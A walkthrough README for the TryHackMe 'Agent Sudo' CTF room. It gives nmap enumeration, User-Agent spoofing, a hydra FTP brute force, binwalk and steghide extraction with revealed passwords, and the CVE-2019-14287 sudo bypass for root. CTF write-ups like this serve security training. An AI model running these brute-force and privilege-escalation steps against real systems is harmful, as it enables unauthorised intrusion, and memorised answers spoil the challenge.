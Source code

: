 ## 🚀 Agent Sudo Guide

![AgentSudo](agentsudo.png)

### Task 1: Author's Note 📝
Welcome to this THM exclusive CTF room. Your mission, should you choose to accept it, involves capturing flags as you navigate through various challenges. Should you find yourself lost in a digital black hole, seek guidance in the forums or the TryHackMe Discord. Enjoy the adventure!

### Task 2: Enumerate 🔍
First things first, let's gather some intelligence on our target machine.

- **Open Ports**: Discover how many doors are open.
  
  ```bash
  nmap -sV -sC 10.10.29.30
  ```
  You'll find **3** open ports: **21** (FTP), **22** (SSH), and **80** (HTTP).

- **Secret Page**: Sneak into hidden directories using a tool like burpsuite or modify the User-Agent to impersonate an agent, hinting at using codenames like "R".

  ```http
  GET / HTTP/1.1
  Host: 10.10.29.30
  User-Agent: R
  ```

### Task 3: Cracking Codes and Forcing Entry 🔓
Now that we've scoped out the scene, let's break some barriers.

- **FTP Password**: Launch a brute force attack with hydra.
  
  ```bash
  hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.12.187:21
  ```
  The key to the FTP is `crystal`.

- **Zip File Password**: Uncover hidden messages within images using tools like binwalk and john the ripper.
  
  ```bash
  binwalk -e cutie.png
  ```
  Decrypt the zip to find it's guarded by an alien. 🛸

- **Steganography**: Extract secret communications with steghide.
  
  ```bash
  steghide extract -sf cute-alien.jpg -p Area51
  ```
  Unearth the full name of another agent involved in this mystery.

### Task 4: Flag Acquisition 🏁
The moment of truth, seizing the user flag and uncovering hidden stories.

- **User Flag**: Navigate through the user's directory.
  
  ```bash
  cat user_flag.txt
  ```
  A string of characters awaits your discovery.

- **Incident Analysis**: Employ your detective skills to deduce the event captured in an alien autopsy photo. (Hint: Try reverse image searching.)

### Task 5: Privilege Escalation ⬆️
Ascend to the highest echelons of access and claim your crown.

- **CVE Exploitation**: Utilize CVE-2019-14287 to elevate your privileges.
  
  ```bash
  sudo -u#-1 /bin/bash
  ```
  Root around to find the root flag and perhaps uncover the true identity of Agent R.